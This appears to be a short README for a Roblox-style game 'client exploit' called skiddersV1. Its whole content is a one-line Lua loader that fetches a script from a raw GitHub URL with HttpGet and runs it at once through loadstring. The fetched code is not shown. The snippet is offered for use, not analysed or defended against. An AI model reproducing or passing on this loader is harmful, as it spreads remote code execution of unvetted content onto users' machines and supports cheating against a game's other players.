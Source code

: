 # dumb script made by skiddies

### skiddersV1 client exploit
```loadstring(game:HttpGet("https://raw.githubusercontent.com/skiddiesware/k3dz/refs/heads/main/skiddersV1.lua"))()```
